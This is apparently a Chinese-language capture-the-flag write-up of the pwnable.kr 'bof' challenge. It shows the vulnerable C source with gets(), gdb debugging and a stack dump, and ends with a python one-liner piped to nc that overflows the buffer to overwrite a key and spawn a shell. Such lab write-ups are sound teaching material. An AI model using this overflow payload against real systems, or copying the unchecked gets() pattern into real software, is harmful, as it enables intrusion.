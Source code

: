 ## Source code
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

## Pwn
從 `gets()` 這邊看起來，我們有機會使用 buffer overflow

進 gdb 調試
```
$ gdb ./bof
(gdb) info func # 列出所以 function symbols
(gdb) disas func # disassemble func()
```

*func+40 的地方就是 `if (key == 0xcafebabe)`，意即 key 這個 function param 存放在 ebp+0x8，即x86 (32bit)上存放第一個 function param 的地方
```
0x0000064f <+35>:    call   0x650 <func+36>
0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:    jne    0x66b <func+63>
```

在 *func+40 處設定 breakpoint，然後把程式跑起來。隨便輸入幾個 A 進去
```
(gdb) b *func+40
(gdb) r
Starting program: /mnt/external/Code/ctf-playground/pwnable.kr/03-bof/bof
overflow me :
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

通常 local varaibles 存放在 $ebp - n 的地方，往回看確實可以找到我們的buffer（很多0x41就是我們剛剛塞的）。後面那個0xdeadbeef就是我們要overwrite的部分。
```
(gdb) x/28x $ebp-60
0xffffc5bc:     0xf7dcd349      0xf7ffcfb8      0x00000000      0x00000000
0xffffc5cc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffc5dc:     0x41414141      0x41414141      0x41414141      0x56550041
0xffffc5ec:     0xbfad3200      0xf7fe43f0      0x00000000      0xffffc618
0xffffc5fc:     0x5655569f      0xdeadbeef      0x00000001      0x565556b9
0xffffc60c:     0x00000000      0xf7f96000      0xf7f96000      0x00000000
0xffffc61c:     0xf7dcd991      0x00000001      0xffffc6b4      0xffffc6bc
```

打造payload，記得 `0xcafebabe` 要用 little endian 表示。
```
(python2 -c 'print 13 * "AAAA" + "\xbe\xba\xfe\xca"' && cat) | nc pwnable.kr 9000
```
